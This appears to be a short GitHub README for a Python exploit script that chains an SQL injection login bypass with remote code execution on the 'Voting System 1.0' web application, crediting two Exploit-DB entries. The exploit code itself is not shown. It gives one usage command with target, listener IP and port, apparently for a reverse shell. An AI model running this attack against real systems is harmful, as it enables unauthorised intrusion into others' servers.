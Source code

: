 # Voting-System-1.0-Unauth-RCE
Voting System 1.0 Unauth RCE

A python 3 script to get an Unauth RCE on the webapp voting system 1.0. All credit and most of the script goes to:

Richard Jones
https://www.exploit-db.com/exploits/49445

Secure77
https://www.exploit-db.com/exploits/49843

I just modified it to chain the SQLI Auth bypass and Auth RCE together

Example:
python exploit.py -t 10.1.1.234 -i 10.2.1.5 -r 4444
